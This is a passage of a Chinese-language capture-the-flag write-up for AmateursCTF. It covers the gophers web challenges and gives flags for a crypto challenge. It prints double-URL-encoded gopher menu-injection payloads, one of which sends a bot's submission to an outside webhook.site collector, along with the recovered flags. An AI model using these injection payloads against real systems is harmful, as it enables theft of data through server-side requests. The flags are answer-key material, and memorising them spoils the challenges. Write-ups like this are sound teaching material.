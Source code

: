 ```
gopher://amt.rs:31290/1/submit/player%2509%2509error%252Ehost%25091%250AiText%2509%2509error%252Ehost%25091%250A0Submit%2520here%2521%2509URL%253Ahttp%253A%252F%252Fwebhook%252Esite%252Fa59b6079%252D5fc7%252D41de%252Da22e%252D0ad3a1d10e5a%2509error%252Ehost%25091%250AiText1
```

注意要URL encode两次，用TAB

`amateursCTF{wh0_s@ys_goph3r_i5nt_web?}`

## web/gophers-revenge

限制了域名是amt.rs，找一下challenges，是配合web/cps remastered的服务器一起用的

是通过随机username和flag作为密码

这很简单，因为cps remastered会显示密码

```
player		error.host	1
iText		error.host	1
0Submit here!	URL:https://cps.amt.rs/register.php	error.host	1
iText1
```

```
gopher://amt.rs:31290/1/submit/player%2509%2509error%252Ehost%25091%250AiText%2509%2509error%252Ehost%25091%250A0Submit%2520here%2521%2509URL%253Ahttps%253A%252F%252Fcps%252Eamt%252Ers%252Fregister%252Ephp%25091%250AiText1
```

```
Thanks for sending in a flag! Use the following token once i get the gopher-catcher frontend setup: 04999857a4147d47f993828d2976bfeb
```

```
welcome, 08667. your password is amateursCTF{ye5._ h1s_1s_g0pher_h3ll}. log out
```

但是提交不上去

`amateursCTF{ye5._ h1s_1s_g0pher_h3ll}`

> amateursCTF{ye5._ h1s_1s_g0pher_h3ll} is not the right flag
> but the contents of flag.txt is the flag

试一下，有可能是flag.txt的内容被URL Encode过，坑是：`{}`没有被encode

`amateursCTF{ye5._+h1s_1s_g0pher_h3ll}`

## crypto/You get extra information 2

`amateursCTF{omg_it's_my_favorite_epic_thing_where_it_looks_like_a_binomial!!}`

离大谱的，直接z3solver解出来

## pwn/hex-converter-2
